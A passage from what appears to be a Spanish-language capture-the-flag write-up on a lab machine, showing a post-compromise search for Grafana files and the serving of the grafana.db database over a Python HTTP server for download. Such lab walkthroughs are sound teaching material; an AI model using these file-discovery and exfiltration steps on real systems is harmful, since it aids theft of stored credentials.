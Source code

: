 Si intentamos usar las credenciales que ya tenemos, no podremos iniciar sesión

![image-center](/assets/images/posts/bigbang-grafana-2.png)
{: .notice--info}

### Finding `grafana` Files

Buscaremos archivos de configuración utilizando la palabra `grafana` para ver si encontramos algo que nos sirva de ayuda, como un archivo de configuración

~~~ bash
-bash-5.1$ find / -name "grafana*" 2>/dev/null
/etc/fail2ban/filter.d/grafana.conf
/opt/data/grafana.db
/usr/lib/python3/dist-packages/sos/report/plugins/grafana.py
/usr/lib/python3/dist-packages/sos/report/plugins/__pycache__/grafana.cpython-310.pyc
/usr/lib/python3/dist-packages/fail2ban/tests/files/logs/grafana
~~~


## SQLite Database Analysis

Traeremos el archivo a nuestra máquina víctima para hacer un análisis de él, podemos iniciar un servidor HTTP en la máquina víctima y descargarlo

~~~ bash
-bash-5.1$ cp /opt/data/grafana.db /tmp
-bash-5.1$ cd /tmp
-bash-5.1$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

